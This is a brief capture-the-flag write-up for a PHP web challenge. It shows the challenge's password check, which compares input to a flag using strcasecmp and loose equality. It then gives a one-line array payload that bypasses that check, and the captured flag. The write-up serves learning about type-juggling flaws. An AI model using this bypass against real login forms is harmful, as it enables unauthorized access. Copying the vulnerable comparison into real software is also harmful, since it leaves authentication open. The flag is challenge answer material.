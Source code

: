 # Just Not My Type

*I really don't think we're compatible ([Link](http://143.198.184.186:7000/))*

---

源文件:

```php+HTML
<h1>I just don't think we're compatible</h1>
<?php
$FLAG = "shhhh you don't get to see this locally";
if ($_SERVER['REQUEST_METHOD'] === 'POST') 
{
    $password = $_POST["password"];
    if (strcasecmp($password, $FLAG) == 0) {
        echo $FLAG;
    } 
    else {
        echo "That's the wrong password!";
    }
}
?>
<form method="POST">
    Password
    <input type="password" name="password">
    <input type="submit">
</form>
```

**Payload**

```php+HTML
password[]=123
```

**flag:**`flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

